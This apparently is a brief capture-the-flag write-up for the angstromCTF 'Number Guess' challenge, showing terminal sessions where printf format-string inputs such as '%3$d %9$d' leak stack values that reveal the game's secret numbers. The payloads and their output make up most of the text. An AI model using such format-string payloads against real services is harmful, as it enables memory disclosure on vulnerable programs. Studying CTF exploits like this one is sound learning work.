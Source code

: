 Number Guess
binary, 70

Ian loves playing number guessing games, so he went ahead and wrote one himself (source). I hope it doesn't have any vulns. The service is running at nc shell.angstromctf.com 1235.

ser@4005fe92be0b /data/binary/number_guess $ ./guessPublic64
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max):
%d %d %d %d %d %d %d %d %d
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
-1209495452 1593 671288 2037461464 2037461568 -1209495128 0 4196944 24318's
guess:

user@4005fe92be0b /data/binary/number_guess $ ./guessPublic64
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max):
%3$d %9$d
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
449701 696324's guess: 1146025 

16:21:03: %[STACK_FRAME#]$d 
